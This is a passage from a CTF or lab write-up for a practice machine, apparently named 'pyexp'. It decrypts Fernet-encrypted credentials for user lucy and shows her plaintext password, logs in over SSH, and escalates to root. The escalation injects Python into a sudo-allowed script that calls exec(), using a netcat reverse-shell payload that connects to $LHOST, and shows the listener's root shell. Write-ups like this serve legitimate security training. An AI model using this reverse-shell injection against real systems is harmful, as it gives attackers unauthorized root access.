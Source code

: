 - seeing `cred` and `key` columns, there possibility that this is somekind of symmetric encryption(decrypt/encrypt data using single key)
#### Decrypting the encrypted data
- We do some research and seem like there possibility that these 2 pair, key and encrypted data are using **fernet**(the table name is the hint) encryption
- according to this [site](https://cryptography.io/en/latest/fernet/): 
```text
Fernet guarantees that a message encrypted using it cannot be manipulated or read without the key. [Fernet] is an implementation of symmetric (also known as “secret key”) authenticated cryptography. Fernet also has support for implementing key rotation via [`MultiFernet`].
```
- Using [fernet decoder](https://asecuritysite.com/encryption/ferdecode)
- We be able to decrypt the data: ````lucy:wJ9`\"Lemdv9[FEw-````
- So we got plain text credential for user: `lucy`
#### Login to SSH using credential
- Now we just need to login: `ssh lucy@$IP -p 1337`
- We're logged in
```bash
lucy@pyexp:~$ id
uid=1000(lucy) gid=1000(lucy) groups=1000(lucy),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

-----------------------
## Privilege Escalation
-----------------------

### Sudo permission
- Run `sudo -l`, to list our sudo permission
```bash
lucy@pyexp:~$ sudo -l
Matching Defaults entries for lucy on pyexp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucy may run the following commands on pyexp:
    (root) NOPASSWD: /usr/bin/python2 /opt/exp.py
```
- We can run `/opt/exp.py` as root user using sudo
### Vulnerable python script
- Read `/opt/exp.py` content
```python
uinput = raw_input('how are you?')
exec(uinput)
```
- According to this [article](https://www.stackhawk.com/blog/command-injection-python/#exploiting-eval-and-exec) about python code injection
We can injection this payload to execute system command inside `exec()` or `eval()`
`__import__(‘os’).system(<command here>)`
- This time instead of executing command to give SUID perm on `/bin/bash` binary, we will just give us reverse shell instead(so the writeups not get so repetitive)
- payload: `__import__(‘os’).system(‘
nc -e /bin/bash $LHOST 1337’)`
- set up listener, execute the payload, we got reverse shell back as root
```bash
~$ nc -lvp 1337
listening on [any] 1337 ...
192.168.65.118: inverse host lookup failed: Unknown host
connect to [192.168.49.188] from (UNKNOWN) [192.168.65.118] 37210
python -c 'import pty; pty.spawn("/bin/bash")'
root@pyexp:/home/lucy# whoami
whoami
root
```